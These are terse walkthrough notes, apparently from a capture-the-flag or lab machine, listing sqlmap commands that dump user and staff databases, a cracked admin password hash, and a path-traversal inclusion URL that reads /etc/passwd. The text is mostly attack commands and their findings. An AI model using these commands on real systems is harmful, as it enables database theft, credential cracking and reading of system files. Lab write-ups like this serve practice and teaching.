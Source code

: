 #found only one port open

#search parameter vulnerable to sql injection

#used this command to get user/pass:
	sqlmap -r req.txt -D users -T UserDetails --dump-all --batch

#used this command to get staff details:
	sqlmap -r req.txt http://192.168.10.13 -D Staff --dump-all --dump-all --batch

#in staff database one pass found in hash:
	admin:856f5de590ef37314e7c3bdf6f8a66dc

#cracked pass using crackstation:
	admin:transorbital1

#inside the admin pannel we found a LFI on:
	http://192.168.10.13/manage.php?file=../../../../../../../../../../etc/passwd

